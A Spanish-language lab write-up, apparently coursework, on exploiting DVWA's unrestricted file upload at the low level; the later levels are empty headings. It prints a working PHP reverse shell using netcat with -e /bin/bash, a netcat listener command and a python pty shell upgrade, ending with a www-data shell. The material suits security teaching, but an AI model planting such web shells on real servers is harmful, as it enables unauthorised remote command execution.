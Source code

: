 # FU

Las vulnerabilidades de subida de archivos se producen cuando un servidor web permite a los usuarios subir archivos a su sistema de archivos sin validar suficientemente aspectos como su nombre, tipo, contenido o tamaño.

## Bajo

Para realizar este nivel, primero debemos acceder a la página de subida de archivos, para ello accedemos a la página principal de DVWA y pulsamos en `File Upload`. Una vez en la página de subida de archivos, podemos observar que el servidor web permite subir archivos de cualquier tipo, por lo que podemos subir la reverse shell que hemos creado en el nivel de `File Inclusion`.

```php
<?php

$cmd = 'nc 127.0.0.1 4000 -e /bin/bash';
system($cmd);

?>
```

Una vez subida la shell, podemos comprobar como se ha subido correctamente.

![fileUploadedLow](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/fileUploadedLow.png)

A continuación, buscamos donde se ha subido el archivo  que según nos indica la respuesta del servidor es:

![fileIndexLow](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/fileIndexLow.png)

Ahora, podemos crear una escucha en el puerto 4000 para recibir la conexión de la reverse shell y  a continuación accedemos a la URL de la shell que hemos subido para ejecutarla.

```bash
nc -lvnp 4000
```

Una vez se establece la conexión, podemos comprobar que tenemos acceso al sistema.
Si se quiere, se puede hacer un upgrade a una shell interactiva con el comando: 

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

En la siguiente imagen podemos observar como hemos obtenido una shell interactiva y hemos podido ejecutar el comando `id` para comprobar que somos el usuario `www-data`.
![challenge-1](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/challenge-1.png)

## Medio

## Alto

## Imposible